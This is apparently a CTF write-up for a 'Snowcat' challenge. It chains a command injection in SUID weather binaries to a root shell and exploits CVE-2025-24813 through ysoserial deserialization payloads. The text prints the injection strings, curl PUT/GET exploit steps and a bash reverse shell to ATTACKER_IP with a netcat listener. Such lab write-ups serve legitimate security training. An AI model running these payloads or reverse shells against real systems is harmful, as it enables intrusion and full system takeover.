



Snowcat RCE & Priv Esc

Someone is manipulating the neighborhood weather station to report false temperatures. But why? This writeup covers the complete attack chain from initial access through root compromise, ultimately revealing the attacker's plan to weaponize meteorological data. Spoiler alert: it's not just about the weather.
Challenge Overview
The neighborhood weather monitoring station has lost access, and they need our help to a) recover an API key and b) uncover the attacker's plan. We start with just a basic user account on the system.
Main Challenge: SUID Binary Exploitation
1. Reconnaissance
Identifying Privilege Escalation Vectors (SUID Binaries)
With the default CLI access, I began enumerating the system for potential privilege escalation vectors. Using common enumeration scripts and manual checks, I discovered 3 interesting binaries with the SUID bit set.
snowcat@weather:/tmp/hsperfdata_snowcat$ find / -perm -4000 -type f 2>/dev/null
...
/usr/local/weather/humidity
/usr/local/weather/pressure
/usr/local/weather/temperature
The SUID/SGID bits mean these binaries execute as root, turning any vulnerability within them into a privilege escalation vector.
snowcat@weather:/tmp/hsperfdata_snowcat$ ls -ltr /usr/local/weather/ ... -rwsr-sr-x 1 root weather 16992 Sep 15 08:15 temperature -rwsr-sr-x 1 root weather 16984 Sep 15 08:15 pressure -rwsr-sr-x 1 root weather 16984 Sep 15 08:15 humidity
-rwsr-sr-x indicate a critical
security configuration. The s characters replacing the standard x
(execute) bits denote that both the SUID (Set User ID) and SGID (Set Group ID) bits are set.
When these binaries execute, they run with the privileges of their owner (root) and group
(weather), regardless of which user launched them. Any vulnerability in these binaries
becomes a
direct path to privilege escalation.
Discover Hardcoded Key in JSP
The binaries require a valid authorization key to execute. Testing without a key confirms this requirement:
user@weather:~$ /usr/local/weather/temperature Usage: /usr/local/weather/temperature <key>
We are provided JSP source files in a directory off our home, ~/weather-jsps/, and examining dashboard.jsp revealed a critical security flaw:
String key = "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6";
Process tempProc = Runtime.getRuntime().exec("/usr/local/weather/temperature " + key);
2. Binary Analysis with Ghidra
I exported the SUID binaries to my local machine (see side note below) and used a free online decompiler from dogbolt.org to quickly decompile them with Ghidra. This saves time from having to set up Ghidra locally.
Side Note: Exporting Binaries via Base64
snowcat@weather:/tmp/hsperfdata_snowcat$ cp /usr/local/weather/temperature /tmp/ snowcat@weather:/tmp/hsperfdata_snowcat$ gzip /tmp/temperature snowcat@weather:/tmp/hsperfdata_snowcat$ base64 -w0 /tmp/temperature.gz snowcat@weather:/tmp/hsperfdata_snowcat$ H4sICMeDU2kAA3RlbXBlcmF0dXJlAO1ba3AU...
I reconstructed the binary using CyberChef reversing the steps.

The decompilation revealed a critical command injection vulnerability in the log_usage function on line 442. The code constructs a shell command using snprintf by wrapping the user input (param_1) in single quotes, but then passes this string directly to system(). Because the input is not sanitized, an attacker can escape the quotes using a single quote character (') to terminate the string and inject arbitrary commands. This allows execution of code with the privileges of the binary's owner, root.

3. Privilege Escalation via Command Injection
The user-supplied key is wrapped in single quotes but passed directly to
system().
By including a
single quote in our input, we can break out of the quoted string and inject arbitrary
commands.
user@weather:~$ /usr/local/weather/temperature "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6' ; whoami #" 3.39 weather
The first quote closes the original string, the semicolon terminates that command, our injected command executes, and the hash is to comment out the remaining character, a single quote.
To get the API keys, cat out the files in the keys directory:
user@weather:~$ /usr/local/weather/temperature "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6' ; cat /usr/local/weather/keys/* #" 3.29 4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6 8ade723d-9968-45c9-9c33-7606c49c2201
4. Challenge Solved
Bonus: 5. Obtaining Root Access
Modifying our last command that got the flag, we can easily create a shell as the
weather user.
user@weather:~$ /usr/local/weather/temperature "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6' ; /bin/bash #" -1.22 bash: /home/user/.bashrc: Permission denied weather@weather:~$
config
that is writable by the weather account. It has the user and group to be used by the SUID programs.
weather@weather:~$ cat /usr/local/weather/config
username=weather
groupname=weather
The SUID binary is owned by root, but it seemingly reads this config file to determine which user privileges to drop to. By changing it to root, we trick the binary into retaining its elevated privileges instead of switching to the weather user. So modify this file to use root for the user and group. Exit the shell and then reenter using the same command that created a shell for weather. This time you'll be in a shell for root!
user@weather:~$ /usr/local/weather/temperature "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6' ; /bin/bash #" -1.27 root@weather:~$
Bonus: 6. Uncover Attacker's Plan
The /root/goal file gives the plan of the threat actor.
root@weather:~$ cat /root/goal
Lower average winter temperature to -15.4 'C
Lower average summer temperature to -3.7 'C
The Missing Piece
It turns out we didn't need the Snowcat RCE to solve the challenge. Here's what I learned about it.
Reconnaissance for Snowcat Exploitation
We perform the following steps to discover details around the Snowcat web server and the weather monitoring services.
- The weather monitoring station runs on Snowcat, a Tomcat-variant web application server
on
port
80
Bash
user@weather:~$ netstat -tulpn Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name tcp6 0 0 :::80 :::* LISTEN - tcp6 0 0 127.0.0.1:8005 :::* LISTEN - user@weather:~$ curl localhost ... <html> <head> <title>Neighborhood Weather Monitoring Station</title>
- Home directory contents:
ysoserial.jar: a tool specifically designed to generate deserialization payloads—was an immediate indicator that this challenge involved exploiting serialization vulnerabilities.Background Info: ysoserial
ysoserial.jar is a tool that generates malicious payloads to exploit Java deserialization vulnerabilities.
- The Goal: Achieve Remote Code Execution (RCE) by sending a crafted object to an application that unsafely deserializes data.
- The Mechanism: It uses "Gadget Chains," sequences of valid code already present in the target's libraries (like Apache Commons), to trigger malicious actions (like running shell commands) upon deserialization.
- Typical Usage:
java -jar ysoserial.jar [LibraryName] '[Command]'
In short: It weaponizes the server's own legitimate code against itself to execute commands.
ysoserial GitHub RepositoryCVE-2025-24813.py: exploit script targeting Tomcat's session management, all the pieces were in place for a deserialization-based attack- JSP source code in
weather-jspscontained application importsorg.apache.commons.collections.map.*, a library notorious for enabling Java deserialization attacks.
Bashuser@weather:~$ ls -l total 58144 -rwx------ 1 user user 1992 Sep 13 08:24 CVE-2025-24813.py -rw-rw-r-- 1 user user 1424 Sep 13 08:24 notes.md drwxrwxr-x 1 user user 4096 Sep 15 08:15 weather-jsps -rw-rw-r-- 1 user user 59525376 Sep 13 08:24 ysoserial.jar
Understanding CVE-2025-24813
CVE-2025-24813 is a deserialization vulnerability in Tomcat's session management. The exploit works by:
- Uploading a malicious serialized session object via HTTP PUT
- Triggering deserialization by sending a GET request with the session cookie
- Executing arbitrary code through Java deserialization gadget chains
More details from the contents of notes.md
notes.md
# Remote Code Execution exploiting RCE-2025-24813
Snowcat is a webserver adapted to life in the arctic.
Can you help me check to see if Snowcat is vulnerable to RCE-2025-24813 like its cousin Tomcat?
## Display ysoserial help, lists payloads, and their dependencies:
```
java -jar ysoserial.jar
```
## Identify what libraries are used by the Neighborhood Weather Monitoring system
## Use ysoserial to generate a payload
Store payload in file named payload.bin
## Attempt to exploit RCE-2025-24813 to execute the payload
```
export HOST=TODO_INSERT_HOST
export PORT=TODO_INSERT_PORT
export SESSION_ID=TODO_INSERT_SESSION_ID
curl -X PUT \
-H "Host: ${HOST}:${PORT}" \
-H "Content-Length: $(wc -c < payload.bin)" \
-H "Content-Range: bytes 0-$(($(wc -c < payload.bin)-1))/$(wc -c < payload.bin)" \
--data-binary @payload.bin \
"http://${HOST}:${PORT}/${SESSION_ID}/session"
curl -X GET \
-H "Host: ${HOST}:${PORT}" \
-H "Cookie: JSESSIONID=.${SESSION_ID}" \
"http://${HOST}:${PORT}/"
```
# Privilege Escalation
The Snowcat server still uses some C binaries from an older system iteration.
Replacing these has been logged as technical debt.
<TOOD_INSERT_ELF_NAME> said he thought these components might create a privilege escalation vulnerability.Remote Code Execution (CVE-2025-24813)
Testing Basic RCE
Testing a file creation with touch showed that the code execution was done as the
snowcat user.
The HTTP 500 error from the HTTP GET is a good sign. If the payload was rejected or ignored, we'd get a 400 Bad Request or 403 Forbidden. The 500 error means the server accepted our serialized object and attempted to deserialize it.
user@weather:~$ java -jar ysoserial.jar CommonsCollections5 "touch /tmp/test" > payload.bin user@weather:~$ base64_payload=$(base64 -w 0 payload.bin) user@weather:~$ python3 CVE-2025-24813.py --host localhost --port 80 \ --base64-payload "$base64_payload" --session-id .test [*] Sending PUT request with serialized session data... [PUT] Status: 409 ... [*] Sending GET request with session cookie... [GET] Status: 500 <!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error ... user@weather:~$ ls -l /tmp total 12 drwxr-xr-x 2 root root 4096 Sep 13 06:28 hsperfdata_root drwxr-x--- 2 snowcat snowcat 4096 Dec 30 05:12 hsperfdata_snowcat drwxr-xr-x 2 user user 4096 Dec 30 06:51 hsperfdata_user -rw-r----- 1 snowcat snowcat 0 Dec 30 06:51 test
Establishing a Reverse Shell
I found that special characters in the command were not working which was likely due to shell escaping issues. To get around this, I put the reverse shell command in an accessible executable file and called that file via the exploit.
user@weather:~$ cat > /tmp/shell.sh << 'EOF' #!/usr/bin/bash /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' EOF user@weather:~$ chmod +x /tmp/shell.sh user@weather:~$ java -jar ysoserial.jar CommonsCollections5 "/tmp/shell.sh" > payload.bin (rest of exploit steps...)
On my attacker machine, I set up a netcat listener to catch the reverse shell:
attacker@host:~$ nc -lvnp 4444 Listening on 0.0.0.0 4444 Connection received on x.x.x.x 42432 ... snowcat@weather:/tmp/hsperfdata_snowcat$
Success! I now had a reverse shell as the snowcat user.
Challenge Reference Material
Challenge Descriptions
Classic Mode Description
Tom, in the hotel, found a wild Snowcat bug. Help him chase down the RCE! Recover and submit the API key _not_ being used by snowcat.
CTF Mode Description
We've lost access to the neighborhood weather monitoring station. There are a couple of vulnerabilities in the snowcat and weather monitoring services that we haven't gotten around to fixing. Can you help me exploit the vulnerabilities and retrieve the other application's authorization key? Enter the other application's authorization key into the badge.
Official Hints
- Snowcat is closely related to Tomcat. Maybe the recent Tomcat Remote Code Execution vulnerability (CVE-2025-24813) will work here.
- Maybe we can inject commands into the calls to the temperature, humidity, and pressure monitoring services.
- If you're feeling adventurous, maybe you can become root to figure out more about the attacker's plans.